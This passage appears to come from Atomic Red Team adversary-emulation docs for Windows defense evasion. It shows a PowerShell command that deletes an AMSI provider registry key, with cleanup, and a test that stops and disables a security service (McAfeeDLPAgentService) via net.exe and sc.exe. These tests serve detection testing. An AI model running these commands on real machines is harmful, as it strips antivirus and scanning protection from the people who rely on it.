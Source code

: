 **Supported Platforms:** Windows


**auto_generated_guid:** 13f09b91-c953-438e-845b-b585e51cac9b






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse
```

#### Cleanup Commands:
```powershell
New-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers" -Name "{2781761E-28E0-4109-99FE-B9D127C57AFE}" -ErrorAction Ignore | Out-Null
```





<br/>
<br/>

## Atomic Test #15 - Disable Arbitrary Security Windows Service
With administrative rights, an adversary can disable Windows Services related to security products. This test requires McAfeeDLPAgentService to be installed.
Change the service_name input argument for your AV solution. Upon exeuction, infomration will be displayed stating the status of the service.
To verify that the service has stopped, run "sc query McAfeeDLPAgentService"

**Supported Platforms:** Windows


**auto_generated_guid:** a1230893-56ac-4c81-b644-2108e982f8f5





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| service_name | The name of the service to stop | string | McAfeeDLPAgentService|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net.exe stop #{service_name}
sc.exe config #{service_name} start= disabled
```
